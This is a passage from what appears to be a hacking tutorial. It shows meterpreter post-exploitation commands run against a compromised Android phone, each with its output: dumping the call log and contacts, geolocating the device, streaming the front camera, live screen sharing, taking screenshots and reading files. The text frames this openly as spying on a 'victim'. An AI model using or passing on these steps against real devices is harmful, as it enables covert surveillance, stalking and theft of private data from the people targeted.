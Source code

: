 Okay, enough of the funny business. When we are attacking our targets, generally speaking, we are wanting to actually obtain information.  
And we can do that by the following;  
**Get the targets Call Log;**  
```
meterpreter > dump_calllog
[*] Fetching 51 entries
[*] Call log saved to calllog_dump_20230107142352.txt
```
**Get the targets Contacts;**  
```
meterpreter > dump_contacts  
[*] No contacts were found!
```
**Get the GeoLocation of our Target;**  
```
meterpreter > geolocate  
[*] Current Location:
        Latitude:  35.0235489
        Longitude: -92.123515657

To get the address: https://maps.googleapis.com/maps/api/geocode/json?latlng=35.0235489,-92.123515657&sensor=true
```
**Spying on our Target;** 
*Spying is the ultimate goal for virtually any hacker, and with meterpreter, we can see how easy it is;*  
```
meterpreter > webcam_list  
1: Back Camera
2: Front Camera
  
meterpreter > webcam_stream Front Camera
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/cryptoh4ck3r/xZUQotbg.html
[*] Streaming...
```
  
**We can also see exactly what our victim is doing on their phone in real time;**  
```
meterpreter > screenshare  
[*] Preparing player...
[*] Opening player at: /home/cryptoh4ck3r/oHLErIfZ.html
[*] Streaming...
```
  
**See something juicy? Take a screenshot like this;**  
```
meterpreter > screenshot  
[-] No screenshot data was returned.  
```
  
**Local Commands;**  
*You can use the targets android device just like a regular Linux machine;  
```
meterpreter > help  
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    del           Delete the specified file
```